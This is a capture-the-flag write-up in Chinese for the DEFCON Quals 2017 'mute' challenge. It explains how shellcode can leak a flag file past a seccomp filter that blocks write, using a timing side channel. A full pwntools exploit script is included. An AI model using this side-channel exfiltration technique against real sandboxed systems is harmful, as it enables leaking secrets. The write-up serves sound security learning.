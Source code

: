 # DEFCON Quals 2017: mute (Pwn)

> [mute](mute)

## 解題

這題目我沒有在限時前解開，遲了三分鐘😭。

![main](main.png)

這個執行檔用`mmap`分配4096 bytes的可執行記憶體空間，從`STDIN`讀取4096 bytes入這個空間，最後直接跳到這個空間的位址去執行。即是說這個程式會執行任何輸入的shellcode。

當然DEFCON的題目不會這樣簡單。在讀入shellcode之前有一個`dropSyscalls`函數，這個函數使用[seccomp](https://en.wikipedia.org/wiki/Seccomp)禁止系統呼叫，只容許部份在白名單中的呼叫。所有被容許的系統呼叫如下：

- read
- open
- close
- stat
- fstat
- lstat
- poll
- lseek
- mmap
- mprotect
- munmap
- brk
- execve

留意`sys_write`是被禁止的。你可以執行任意指令，只是不許輸出任何內容。

其他題目的flag都是在一個叫`flag`的檔案，這題目應該也不例外。寫機械碼呼叫`sys_open`和`sys_read`讀取這個檔案並不困難。難題是我們不能直接把結果寫到STDOUT，要怎樣回傳flag？我先是在找有沒有一些奇怪的系統呼叫沒有被禁止，可是這個程式先是把seccomp預設設為禁止，再逐一開放個別呼叫，看起來是滴水不漏。既然不能直接輸出，只好想一下有沒有side-channel。

我最後用了timing作為訊息輸出內容。方法是逐次讀取檔案內容，每次只讀取其中一位元。如果這個位元是1的話就進入無限迴圈，否則就結束程式。從連線有否被中斷就可以判斷這一位元的值。這樣重複執行，不用很長時間就可取得完整的flag。

```python
s = ""
for i in range(10):
    c = 0
    for j in range(8):
        r = process('mute')
        #r = remote("mute_9c1e11b344369be9b6ae0caeec20feb8.quals.shallweplayaga.me", 443)
        r.readline()

        src = pwnlib.shellcraft.amd64.linux.open("flag", 0)
        src += pwnlib.shellcraft.amd64.mov("r8", "rax")
        src += pwnlib.shellcraft.amd64.linux.lseek("r8", i, 0)
        src += pwnlib.shellcraft.amd64.linux.read("r8", "rsp", 1)
        src += """
            movzx	eax, BYTE PTR [rsp]
            movsx	edx, al
            mov	eax, %s
            mov	ecx, eax
            sar	edx, cl
            mov	eax, edx
            and	eax, 1
            test	eax, eax
            je	.L2
        .L3:
            jmp	.L3
        .L2:
            leave
            ret
        """ % j
        log.info(src)
        sc = asm(src)
        r.send(sc + "\0" * (0x1000 - len(sc)))
        try:
            r.recv(timeout=1)
            c = (c >> 1) | 128
        except EOFError:
            c = c >> 1
    sys.stdout.write(chr(c))
    sys.stdout.flush()
```

## 完整解答

[mute.py](mute.py)
